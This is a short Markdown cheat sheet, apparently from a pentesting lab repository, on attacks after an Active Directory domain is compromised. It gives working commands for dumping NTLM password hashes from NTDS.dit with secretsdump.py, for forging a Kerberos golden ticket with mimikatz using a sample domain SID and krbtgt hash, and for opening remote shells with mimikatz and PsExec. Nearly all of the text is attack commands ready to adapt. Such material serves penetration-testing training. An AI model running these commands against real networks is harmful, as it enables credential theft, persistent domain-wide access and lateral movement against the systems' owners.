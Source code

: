 
* **Post-Domain Compromise Attack Strategy**: Plan strategies post-domain compromise.
	- Plan strategies post-domain compromise.
* **Dumping the NTDS.dit**: Extract NTDS.dit for password hashes.
	- Extract NTDS.dit for password hashes.
		```bash
		secretsdump.py -just-dc-ntlm domain/administrator@192.168.1.1
		```
* **Golden Ticket Attacks**: Exploit Golden Ticket attacks.
	- Exploit Golden Ticket attacks by obtaining the NTLM hash and the domain SID using mimikatz. 
	- Generate a golden ticket and utilize the **Pass-the-Ticket** attack to gain access to any resource or system on the domain.
		```powershell
		mimikatz # kerberos::golden /User:secfortress /domain:marvel.local /sid:S-1-5-21-4089637540-2738901061-2314813381 /krbtgt:f362ad348de4e7392c0309959ec0775d /id:500 /ptt
		```
* **Executing Commands Remotely**: Once the golden ticket is generated, execute commands remotely using mimikatz.
	- Execute commands remotely to maintain access and control over the compromised domain.
		```powershell
		mimikatz # misc::cmd
		```
* **Using PsExec.exe for Remote Shell**: Gain a shell on remote targets using PsExec.exe.
	- Use PsExec.exe to establish a remote shell on target machines, enabling further exploitation and control.
		```powershell
		C:\Users\Administrator\Downloads>PsExec.exe \\THEPUNISHER cmd.exe
		```